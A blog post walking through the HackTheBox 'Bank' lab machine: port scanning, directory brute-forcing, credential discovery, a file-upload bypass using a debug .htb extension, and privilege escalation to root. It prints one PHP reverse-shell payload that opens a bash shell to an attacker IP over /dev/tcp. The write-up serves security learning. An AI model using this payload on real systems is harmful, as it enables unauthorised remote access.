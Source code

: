 ```yaml
---
layout: default
title:  "HackTheBox - Bank"
date:   2020-06-29
categories: HackTheBox
---
```


# HackTheBox - Bank
In the series of HackTheBox our next stop is ‘Bank’.

This is an Linux based machine which is tagged with ‘Easy’ severity, it was fun learning by playing with this box.But it needs lots of patience and information gathering skills to successfully exploit it.


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593499809806_Screenshot+2020-06-30+at+12.19.52+PM.png)


**Tools:**

* PortScan - Nmap and Masscan
* Proxy - Burp Suite
* Directory Search - [ffuf](https://github.com/ffuf/ffuf)
* Privilege Escalation - [LinuxPrivilegeChecker](https://github.com/sleventyeleven/linuxprivchecker)

**Steps To Reproduce:**

So without any delay i just started scanning all ports and sersion configuration using masscan and nmap

**Initial Recon:**


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593500049001_Screenshot+2020-06-30+at+12.23.59+PM.png)

![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593500103632_Screenshot+2020-06-30+at+12.24.53+PM.png)


On viewing the result port 22 appeared to be unusual after surfing i didn’t find anything intresting, meanwhile i ran fuff to search directories.

On accessing port 80, we can see that default apache page is available

![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501039346_Screenshot+2020-06-30+at+12.40.08+PM.png)


Dead end!!

After taking a look a forum disscussion, there was mentioned something about hostname, so with less hope i configured host name in /etc/hosts


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501195247_Screenshot+2020-06-30+at+12.43.02+PM.png)


 
I don’t know why this behaves like this, i got a web application with a login page 


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501270552_Screenshot+2020-06-30+at+12.43.32+PM.png)


**Directory Search:**

After long time of struggling with login page nothing came up, so i started running fuff with different files


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501526158_Screenshot+2020-06-30+at+12.47.29+PM.png)

![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501517590_Screenshot+2020-06-30+at+12.46.46+PM.png)


******Successful login:**

After lots of scanning i found something useful


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501578621_Screenshot+2020-06-30+at+11.20.45+AM.png)


While looking at those file contents, it had some information which were encrypted,


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501656815_Screenshot+2020-06-30+at+12.50.10+PM.png)


So i started scrolling down to find anything unusual, here we go 


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501700352_Screenshot+2020-06-30+at+11.22.59+AM.png)


One file appear to have different file size, on referring the file i get to know some information which lead me to login successfully


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501778813_Screenshot+2020-06-30+at+11.23.35+AM.png)


Boom!! we are inside



![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593502015116_Screenshot+2020-06-30+at+12.54.29+PM.png)


**Command Execution:**

In support tab i found file upload functionality, using which i try to upload php file which was rejected.


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593502166604_Screenshot+2020-06-30+at+11.27.29+AM.png)


So this expects image file, right as traditional method i used [exiftool](https://github.com/xapax/security/blob/master/bypass_image_upload.md) to store my reverse shell content into image file

But by doing so my image got rendered and i didn’t get any shell.

During my initial recon i found some like this


     <!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->

So i try to upload my reverse shell by creating a file with .htb extension


    Reverse shell code:
    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.24/1234 0>&1'");
    ?>

Finally we are into the server


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593502665235_Screenshot+2020-06-30+at+11.39.03+AM.png)


**User Flag:**

I thought www-data won’t have permission to read user.txt but to my suprise it was readable


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593503586536_Screenshot+2020-06-30+at+11.40.17+AM.png)


**Privilege Escalaltion:**

So for escalating to root, basic information are required. Just transfer linuxprivilegechecker.py file to /tmp directory and run 

Based on results i found something interesting which is running as root privilege


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593503876094_Screenshot+2020-06-30+at+11.57.57+AM.png)


So executing this file got me root 


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593503907340_Screenshot+2020-06-30+at+12.00.44+PM.png)


Thank you, Have a good day

<div id="hyvor-talk-view"></div>
<script type="text/javascript">
    var HYVOR_TALK_WEBSITE = 961; // DO NOT CHANGE THIS
    var HYVOR_TALK_CONFIG = {
        url: '{{ page.url | absolute_url }}',
        id: '{{page.id}}'
    };
</script>
<script async type="text/javascript" src="//talk.hyvor.com/web-api/embed"></script>
